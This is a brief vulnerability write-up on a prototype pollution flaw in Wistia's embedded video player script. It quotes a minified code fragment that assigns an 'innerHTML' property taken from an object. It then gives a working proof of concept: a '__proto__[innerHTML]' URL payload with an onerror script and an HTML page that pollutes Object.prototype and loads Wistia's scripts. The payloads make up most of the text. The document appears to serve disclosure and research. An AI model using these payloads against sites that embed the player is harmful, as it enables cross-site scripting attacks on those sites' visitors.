 ## Wistia Embedded Video

URL: https://wistia.com/support/embed-and-share/video-on-your-website

### Vulnerable code fragment
```js
if (this.chrome = r.elem.fromObject({
    id: r.seqId('wistia_chrome_'),
    class: 'w-chrome',
    style: r.generate.relativeBlockCss(),
    tabindex: -1
})
...
b = function e(t) {
  ...
  var i = t.tagName || 'div'
  ...
  var l = document.createElement(i);
  for (var s in t) {
    var d = t[s];
    if ('childNodes' != s && 'tagName' !== s && 'ref' !== s) {
    ...
    else
      'className' === s || 'class' === s ? l.className = d : 'innerHTML' === s ? l.innerHTML = d
```

### PoC
```
?__proto__[innerHTML]=<img/src/onerror=alert(1)>
```

```html
<script>
  Object.prototype.innerHTML = '<img/src/onerror=alert(1)>';
</script>

<script src="https://fast.wistia.com/embed/medias/j38ihh83m5.jsonp" async></script>
<script src="https://fast.wistia.com/assets/external/E-v1.js" async></script>
<div class="wistia_embed wistia_async_j38ihh83m5"></div>
```